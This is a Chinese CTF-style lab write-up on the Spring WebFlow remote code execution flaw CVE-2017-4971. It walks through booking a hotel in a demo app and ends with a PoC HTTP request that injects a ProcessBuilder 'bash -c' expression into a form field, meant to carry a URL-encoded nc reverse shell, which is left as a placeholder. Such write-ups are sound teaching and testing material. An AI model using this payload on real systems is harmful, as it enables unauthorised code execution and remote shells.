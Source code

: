 # Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）by [xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

 Spring WebFlow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## 影响版本

Spring WebFlow 2.4.0 – 2.4.4

## 利用流程

1选择左侧用户名登陆

 ![1](./1.jpg)

2访问路径 `/hotels/1` 点击 `Book Hotel` 

![2](./2.jpg)

 3填写相应信息后点击 `Proceed` 

![3](./3.jpg)

4点击 `Confirm` 抓包

![4](./4.jpg)

5将 nc 的反弹 shell 转换成 url 编码

![5](./5.jpg)

6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```

![6](./6.jpg)



## 参考

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/

